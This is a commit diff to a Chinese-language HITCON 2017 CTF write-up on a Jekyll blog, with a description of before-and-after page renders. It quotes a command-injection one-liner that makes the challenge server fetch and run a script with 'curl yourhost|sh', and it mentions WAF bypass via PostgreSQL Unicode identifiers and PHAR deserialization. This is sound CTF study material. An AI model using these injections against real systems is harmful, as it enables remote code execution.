

Before and after one commit to mo-xiaoxi/mo-xiaoxi.github.io, a Jekyll site: the page built from _posts/2017-11-08-HITCON.md, in a window 1280 px wide and 900 px high, scrolled down 13552 px. Shown: the whole window, without its empty margins (233-1239 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; part of the change alters nothing that is shown.

Commit message:
hitcon 2017 WP

````diff
--- a/_posts/2017-11-08-HITCON.md
+++ b/_posts/2017-11-08-HITCON.md
@@ -632,7 +632,9 @@ http://13.115.136.15/sandbox/5d4ef0aebfb2070eb64c89b752d7ce89/flag
 
 当然，既然可以命令执行，你也可以下载一个脚本，然后sh执行，如@Paul Axe写的WP：
 
-> curl 'http://13.115.136.15/?url=a&filename=|curl+yourhost|sh';curl 'http://13.115.136.15/?url=file:|curl+yourhost|sh' [#**HITCON**](https://twitter.com/hashtag/HITCON?src=hash) SSRFme writeup
+> ```bash
+> curl 'http://13.115.136.15/?url=a&filename=|curl+yourhost|sh';curl 'http://13.115.136.15/?url=file:|curl+yourhost|sh' #HITCON SSRFme writeup
+> ```
 
 参考：
 
@@ -827,7 +829,7 @@ print r.content
 
 主要思路是通过 Postgre 的查询语法的特性绕过 WAF 的过滤。
 
-https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html
+[https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html](https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html)
 
 >  A variant of quoted identiﬁers allows including escaped Unicode characters identiﬁed by their code points. This variant starts with U& (upper or lower case U followed by ampersand) immediately before the opening double quote, without any spaces in between, for example U&"foo". (Note that this creates an ambiguity with the operator &. Use spaces around the operator to avoid this problem.) Inside the quotes, Unicode characters can be speciﬁed in escaped form by writing a backslash followed by the four- digit hexadecimal code point number or alternatively a backslash followed by a plus sign followed by a six-digit hexadecimal code point number.
 >
@@ -951,7 +953,7 @@ print r.content
 
 解答：
 
->#### Idea
+>Idea
 >
 >- PHP do the de-serialization on `PHAR` parsing
 >- PHP assigned a predictable function name `\x00lambda_%d` to an anonymous function
````
